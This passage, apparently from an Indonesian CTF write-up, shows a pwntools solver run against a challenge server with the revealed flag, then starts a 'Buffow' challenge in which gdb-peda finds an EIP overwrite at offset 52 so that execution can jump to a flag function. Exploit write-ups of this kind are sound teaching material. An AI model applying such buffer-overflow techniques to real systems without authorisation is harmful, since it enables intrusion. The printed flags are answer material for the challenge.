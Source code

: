 ```solver.py```
r.sendline(payload)
r.interactive()
```

Jalankan script dan flag didapatkan:
```
$ python solver.py 
[+] Opening connection to asgama.web.id on port 40209: Done
[*] Switching to interactive mode
Debug Mode
$ ls
flag
hehe
$ cat flag
GamaCTF{R0P_r0P_FTW}
$ 
[*] Interrupted
[*] Closed connection to asgama.web.id port 40209
```

Flag: ```GamaCTF{R0P_r0P_FTW}```

# Buffow [200 pts]

Diberikan file ELF 32-bit not stripped yang hanya meminta inputan tapi tidak mencetak output dan service ```nc asgama.web.id 40211```
```
$ file buffow
buffow: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=10ddb3cec335906e1fc641fce780bffc73fcb09a, not stripped
```

Di program ini mempunyai banyak fungsi tapi yang paling penting adalah fungsi ```main``` dan ```flag```.
Saya coba membuat inputan dengan ```pattern``` yang ada di gdb.

```
gdb-peda$ pattern create 300 exp
Writing pattern of 300 chars to filename "exp"
gdb-peda$ b *0x08049290
Breakpoint 2 at 0x8049290
gdb-peda$ r < exp 
Starting program: /home/abdullahnz/AsgamaCTF/WriteUp/buffow < exp
...
Stopped reason: SIGSEGV
0x41474141 in ?? ()
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```

Terlihat pada offset 52 ```eip``` ter-overwrite dan kita bisa merubah address ke address tujuan kita yaitu fungsi ```flag``` yang akan mencetak flag yang kita cari.
